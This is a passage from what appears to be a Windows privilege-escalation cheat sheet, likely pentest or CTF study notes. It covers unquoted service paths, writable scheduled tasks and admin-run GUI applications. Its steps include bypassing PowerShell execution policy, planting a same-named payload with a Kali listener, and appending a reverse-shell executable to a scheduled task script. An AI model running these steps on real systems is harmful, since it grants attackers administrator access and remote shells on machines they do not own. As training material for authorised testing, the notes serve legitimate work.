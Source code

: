 ## 20. Unquoted Service Path <a name="Unquoted_Service_Path"></a>
If the path is not quoted and if are trying to run "C:\Program FIles\Test\test.exe"
It will try to run the test.exe starting from C:\ till it find test.exe.
1.  `powershell -ep bypass`
2. `. .\PowerUp.ps1`
3. `Invoke-AllChecks` it will look for different checks.
4.  Then we can find unquoted service path.
5.  Generate a payload in the same name for example Test.exe or Program.exe.
6.  Start a listner in Kali.
7.  Put in the path of the unqouted service.
8.  `sc start [servicename]`


## 21. Sheduled Task <a name="Sheduled_Task"></a>

1. `schtasks` for viewing the sheduled task.
2. Suppose `C:\DevTools\CleanUp.ps1` is a sheduled task.
3. `type C:\DevTools\CleanUp.ps1` to see the content.
4. `C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1` to check permission.
5. If its writable we can just `echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1` or we insert any malicious code and wait for the sheduled task to execute our malicious code.

## 22. Insecure GUI <a name="Insecure_GUI"></a>
Suppose there is a GUI application that is running with admin privileages.
1. Then we can run that GUI app. Supporse "AdminPaint". Run the application.
2. `tasklist /V | findstr mspaint.exe` to see whether its running with adminprivileages or not.
3. In Paint, click "File" and then "Open". In the open file dialog box, click in the navigation input and paste: file://c:/windows/system32/cmd.exe 
4. Press Enter to spawn a command prompt running with admin privileges.